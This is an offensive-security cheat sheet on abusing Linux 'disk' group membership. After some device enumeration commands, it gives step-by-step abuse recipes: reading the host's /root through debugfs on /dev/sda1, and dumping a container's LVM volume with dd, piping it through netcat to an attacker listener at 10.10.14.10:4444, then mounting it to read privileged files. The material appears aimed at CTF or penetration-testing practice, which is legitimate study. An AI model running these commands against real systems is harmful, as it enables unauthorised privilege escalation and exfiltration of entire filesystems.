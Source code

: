 ```yaml
---
title: "disk group"
date: 2024-7-2
tags: ["disk", "mount", "backup", "privilege read", "container", "lvm"]
---
```


---
### Basic

```bash
# Show devices
lsblk
```

```bash
# Device attributes
blkid
```

```bash
# Show swap on blk
swapon -s
```

```bash
# Filesystem info
cat /etc/fstab
```

### Abuse #1: Read host's filesystem from container (root)

```bash
# Open target device
debugfs /dev/sda1
```

```bash
# Exploit
ls /root
```

### Abuse #2: Read container's filesystem from host

```bash
# Show LVM mappings
ls -l /dev/mapper/
```

```bash
# In our local machine
nc -lvnp 4444 > dm-0.gz
```

```bash
# Exfil filesystem (target container rootfs, e.g. dm-0)
dd if=/dev/dm-0 | gzip -1 - | nc 10.10.14.10 4444
```

```bash
# Extract dm-0
gunzip dm-0.gz
```

```bash
# Mount the filesystem
sudo mount dm-0-orig /mnt/ 
```

```bash
# Privilege read
ls /mnt/root/
```

<small>*Note: can take a long time to transfer*</small>